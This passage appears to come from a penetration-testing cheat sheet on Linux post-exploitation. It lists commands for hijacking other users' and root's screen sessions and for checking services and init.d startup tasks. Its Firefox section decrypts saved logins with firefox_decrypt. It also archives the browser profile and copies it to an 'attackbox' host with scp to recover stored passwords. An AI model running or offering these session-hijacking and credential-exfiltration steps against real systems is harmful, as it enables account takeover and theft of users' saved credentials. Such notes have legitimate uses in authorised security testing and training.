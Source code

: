 ## **hijack sessions / shell sessions**

[**https://steflan-security.com/linux-privilege-escalation-exploiting-shell-sessions/**](https://steflan-security.com/linux-privilege-escalation-exploiting-shell-sessions/)

## **screen**

{% code overflow="wrap" %}
```bash
https://serverfault.com/questions/720357/ubuntu-allow-users-access-to-roots-screen-command-also-restrict-which-screens
# List screen shells for a specific username
screen -ls $USERNAME/
There is a suitable screen on:
...
# Detach previous running screen session and reattach here 
screen -dr $USERNAME/
screen -x root/ # $session_owner/
```
{% endcode %}

## **Services**

inspect closely every service, format is `/etc/systemd/system/X.service`

## **Startup tasks**

```bash
# init.d script
https://www.doyler.net/security-not-included/exploiting-init-d-fun-profit

ls -l /etc/rc*.d/
```

## **Firefox profiles / config files**

[**https://book.hacktricks.xyz/forensics/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox**](https://book.hacktricks.xyz/forensics/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox)

```bash
### METHOD 1 - cd .firefox or cd .mozilla, then to the profile folder
ls | grep -E "logins.json|cert9.db|cookies.sqlite|key4.db"
https://github.com/unode/firefox_decrypt
python firefox_decrypt.py
# then select a profile and do not provide a master password

#### METHOD 2 - Compress the folder
tar -cvf firefox.tgz .firefox
# Transfer it to our attack machine
scp firefox.tgz user@attackbox:
# Decompress it
tar xvf ~/firefox.tgz
# Launch Firefox with the profile and look for saved logins and passwords
firefox --profile .firefox/b5w4643p.default-release --allow-downgrade
```
